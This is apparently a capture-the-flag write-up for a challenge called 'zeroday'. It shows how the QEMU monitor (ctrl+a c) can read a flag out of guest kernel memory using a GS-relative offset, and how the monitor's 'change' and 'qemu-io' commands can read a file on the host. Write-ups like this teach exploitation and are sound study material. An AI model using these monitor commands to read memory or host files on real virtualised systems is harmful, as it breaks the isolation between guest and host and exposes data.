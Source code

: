# zeroday

See : https://aaronesau.com/blog/post/9

## TLDR
Spawn qemu monitor with `ctrl+a c`.
Read flag from memory.

---


While debugging the vm, search for "corctf{" in the memory using gdb :
```
pwndbg> search -t bytes "corctf{"
Searching for value: 'corctf{'
[pt_ffff8e5645584] 0xffff8e5647bb3000 'corctf{test_flag}'
```

We need to find a way to get an address at a fixed offset from the flag.
We can try to print the registers :
```
(qemu) info registers
info registers

CPU#0
RAX=000000000001ad40 RBX=ffffffffa461b600 RCX=0000000000000000 RDX=0000000000000000
[...]
GS =0000 ffff9b4687a00000 00000000 00000000
```

Fortunately, the value of `GS` is in the same memory region as the flag.
We can compute the offset from the flag :
```
pwndbg> p/x 0xffff8e5647bb3000-0xffff8e5647a00000
$2 = 0x1b3000
```

We can now try to read at this offset using qemu monitor.
```
(qemu) x /20gx 0xffff9b4687bb3000
ffff9b4687bb3000: 0x747b667463726f63 0x67616c665f747365
```

---

We can also read files of the host using the monitor from qemu.
```
(qemu) info block
ide1-cd0: [not inserted]
    Attached to:      /machine/unattached/device[24]
    Removable device: not locked, tray closed

floppy0: [not inserted]
    Attached to:      /machine/unattached/device[17]
    Removable device: not locked, tray closed

sd0: [not inserted]
    Removable device: not locked, tray closed
(qemu) change sd0 ./run.sh raw read-only
(qemu) qemu-io sd0 "read -v 0 100"
00000000:  23 21 2f 62 69 6e 2f 73 68 0a 0a 71 65 6d 75 2d  ...bin.sh..qemu.
00000010:  73 79 73 74 65 6d 2d 78 38 36 5f 36 34 20 5c 0a  system.x86.64...
00000020:  20 20 20 20 2d 6d 20 31 32 38 4d 20 5c 0a 20 20  .....m.128M.....
00000030:  20 20 2d 6e 6f 67 72 61 70 68 69 63 20 5c 0a 20  ...nographic....
00000040:  20 20 20 2d 6b 65 72 6e 65 6c 20 22 2e 2f 62 7a  ....kernel....bz
00000050:  49 6d 61 67 65 22 20 5c 0a 20 20 20 20 2d 61 70  Image.........ap
00000060:  70 65 6e 64  pend
read 100/100 bytes at offset 0
100 bytes, 1 ops; 00.00 sec (555.816 KiB/sec and 5691.5520 ops/sec)
```
